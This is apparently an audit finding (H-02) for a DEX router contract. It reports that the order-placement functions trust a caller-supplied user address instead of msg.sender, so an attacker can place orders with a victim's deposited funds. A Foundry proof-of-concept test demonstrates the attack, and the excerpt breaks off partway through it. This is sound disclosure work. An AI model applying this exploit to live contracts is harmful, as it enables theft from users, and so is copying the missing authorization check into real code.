 ## [H-02] Attacker can use address of anyone to execute place order

### **Severity**

**Impact:** High

**Likelihood:** High

### **Finding Description**

Attacker can use address of anyone to execute place order

This can have a bad impact if the trade results do not produce profits and are actually detrimental, the most fatal impact is that the attacker can place orders with the deployed malicious pool and drain the victim's wallet.

This can happen because the `_placeLimitOrder` and `_placeMarketOrder` functions do not use `msg.sender` as the address to be executed but use the `address _user` variable as the target then anyone can call the place order or place market order functions with someone else's address and create an order.

### **Proof of Concept**

Place a test in `GTXRouterTest.test.sol` and run `forge test --match-test testAttackerCanPlaceOrderUsingSomeoneElseAddress`

```solidity
 function testAttackerCanPlaceOrderUsingSomeoneElseAddress() public {
        IPoolManager.Pool memory pool = _getPool(weth, usdc);

        // Setup a proper order book with liquidity on both sides
        vm.startPrank(user);
        // Add sell orders
        mockWETH.mint(user, 10 ether);
        IERC20(Currency.unwrap(weth)).approve(address(balanceManager), 10 ether);
        balanceManager.deposit(weth, 10 ether, user, user);
        uint128 sellPrice = 3000 * 10 ** 6; // 3000 USDC per ETH
        uint128 sellQty = 1 * 10 ** 18; // 1 ETH
        gtxRouter.placeOrder(pool, sellPrice, sellQty, IOrderBook.Side.SELL, user);

        // Add buy orders
        mockUSDC.mint(user, 10_000 * 10 ** 6);
        IERC20(Currency.unwrap(usdc)).approve(address(balanceManager), 10_000 * 10 ** 6);
        balanceManager.deposit(usdc, 10_000 * 10 ** 6, user, user);
        uint128 buyPrice = 2900 * 10 ** 6; // 2900 USDC per ETH
        uint128 buyQty = 1 * 10 ** 18; // 1 ETH
        gtxRouter.placeOrder(pool, buyPrice, buyQty, IOrderBook.Side.BUY, user);
        vm.stopPrank();

        // victim with deposited fund on his address
        address victim = makeAddr("victim");
        vm.startPrank(victim);
        mockUSDC.mint(victim, 1500 * 10 ** 6); // 1500 USDC
        IERC20(Currency.unwrap(usdc)).approve(address(balanceManager), 1500 * 10 ** 6);
        balanceManager.deposit(usdc, 1500 * 10 ** 6, victim, victim);
        vm.stopPrank();

        // attacker place order on someone else address
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        uint128 buyMarketQty = 5 * 10 ** 17; // 0.5 ETH
        uint48 marketBuyId = gtxRouter.placeMarketOrder(pool, buyMarketQty, IOrderBook.Side.BUY, victim);
        console.log("Market buy order executed with ID:", marketBuyId);
```